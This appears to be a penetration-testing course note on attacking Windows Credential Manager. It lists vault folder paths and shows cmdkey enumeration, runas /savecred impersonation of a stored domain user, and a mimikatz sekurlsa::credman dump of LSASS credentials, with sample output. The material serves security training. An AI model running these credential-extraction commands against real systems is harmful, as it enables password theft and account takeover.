 ## Windows Vault and Credential Manager

It allows users and applications to securely store credentials relevant to other systems and websites. Credentials are stored in special encrypted folders on the computer under the user and system profiles ([MITRE ATT&CK](https://attack.mitre.org/techniques/T1555/004/)):


- `%UserProfile%\AppData\Local\Microsoft\Vault\`
- `%UserProfile%\AppData\Local\Microsoft\Credentials\`
- `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
- `%ProgramData%\Microsoft\Vault\`
- `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`


Each vault folder contains a `Policy.vpol` file with AES keys (AES-128 or AES-256) that is protected by DPAPI. These AES keys are used to encrypt the credentials. Newer versions of Windows make use of `Credential Guard` to further protect the DPAPI master keys by storing them in secured memory enclaves ([Virtualization-based Security](https://learn.microsoft.com/en-us/windows-hardware/design/device-experiences/oem-vbs)).

Microsoft often refers to the protected stores as `Credential Lockers` (formerly `Windows Vaults`). Credential Manager is the user-facing feature/API, while the actual encrypted stores are the vault/locker folders. The following table lists the two types of credentials Windows stores:

|Name|Description|
|---|---|
|Web Credentials|Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge.|
|Windows Credentials|Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories.|

![[Pasted image 20250711184541.png]]


It is possible to export Windows Vaults to `.crd` files either via Control Panel or with the following command. Backups created this way are encrypted with a password supplied by the user, and can be imported on other Windows systems.

```cmd
C:\Users\sadams>rundll32 keymgr.dll,KRShowKeyMgr
```

![[Pasted image 20250711184630.png]]

## Enumerating credentials with cmdkey

We can use [cmdkey](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) to enumerate the credentials stored in the current user's profile:

Attacking Windows Credential Manager

```cmd
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Stored credentials are listed with the following format:

|Key|Value|
|---|---|
|Target|The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.|
|Type|The kind of credential. Common types are `Generic` for general credentials, and `Domain Password` for domain user logons.|
|User|The user account associated with the credential.|
|Persistence|Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with `Local machine persistence` survive reboots.|
Whenever we come across this type of credential, we can use `runas` to impersonate the stored user like so:

```cmd-session
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

## Extracting credentials with Mimikatz

There are many different tools that can be used to decrypt stored credentials. One of the tools we can use is [mimikatz](https://github.com/gentilkiwi/mimikatz). Even within `mimikatz`, there are multiple ways to attack these credentials - we can either dump credentials from memory using the `sekurlsa` module, or we can manually decrypt credentials using the `dpapi` module. For this example, we will target the LSASS process with `sekurlsa`:



```cmd-session
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```


> [!NOTE] 
> **Note:** Some other tools which may be used to enumerate and extract stored credentials included [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI), [LaZagne](https://github.com/AlessandroZ/LaZagne), and [DonPAPI](https://github.com/login-securite/DonPAPI).

